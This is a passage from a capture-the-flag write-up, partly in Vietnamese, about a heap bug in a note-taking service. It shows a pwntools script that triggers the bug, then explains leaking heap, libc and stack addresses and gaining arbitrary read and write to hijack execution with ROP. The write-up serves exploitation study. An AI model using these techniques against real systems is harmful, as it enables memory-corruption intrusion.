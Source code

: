 ```py
def read_note(title, author, is_encrypted, passwd):
    io.sendlineafter(b"Choice: ", b"3")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)
    if is_encrypted:
        io.sendlineafter(b"Password?", passwd)

def list_note():
    io.sendlineafter(b"Choice: ", b"2")

def edit_note(title, author, is_encrypted, passwd, content_len, content):
    io.sendlineafter(b"Choice: ", b"4")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)

    if is_encrypted:
        io.sendlineafter(b"Password ?", passwd)
    io.sendlineafter(b"New content len?", str(content_len).encode())
    io.sendlineafter(b"New content:", content)
    

add_new_note(b"shin24", b"shin24", False, None, 0, b"aaaaa")

add_new_note(b"shin24", b"shin24", True, b"123", 960, b"A"*(928))

edit_note(b"shin24", b"shin24", False, None, 40, b"aaaaaaa")

note_sync(0)
io.interactive()
```

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/ad56da62-cf6b-4f1a-bc52-94fb482a1020)

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/642b5990-386a-405d-8c8c-1800d65bd6af)

### Exploitation

Đầu tiên về memleak thì mình lợi dụng việc interface dùng memcpy, nên ta có thể copy sao cho data của ta nằm ngay kế các pointer cần leak, cách này sẽ vô tình phá hủy một phần heap khá lớn và làm cho đoạn exploit sau khó hơn...

Sau khi leak được heap, ta có thể tiếp tục leak libc bằng cách tìm pointer đến main_arena trên heap, lúc này thì có một vấn đề đó là docker sử dụng image `ubuntu@latest`, nghĩa là docker lúc mình build sẽ khác version libc với docker lúc challenge được start lên (đâu đó gần nửa năm). Mình quyết định lên docker tìm các image có behavior mà mình cảm thấy giống với remote nhất và cuối cùng tìm được `ubuntu@sha256:f9d633ff6640178c2d0525017174a688e2c1aef28f0a0130b26bd5554491f0da`.

Tiếp tục với việc leak libc, ta có thể allocate cho 2 note kế cạnh nhau, sau đó từ note overflow để ghi đè buffer pointer của note 2, sau đó cho in note này ra, thế là ta đã có một read primitive. Sau khi leak được libc, ta làm điều tương tự để leak stack thông qua `environ`, tiếp theo ta sẽ control RIP bằng ROP thông qua write primitive (vì ta đã control được pointer của buffer, do đó ta có thể dùng bug desync ban đầu để ghi vào địa chỉ bất kì)
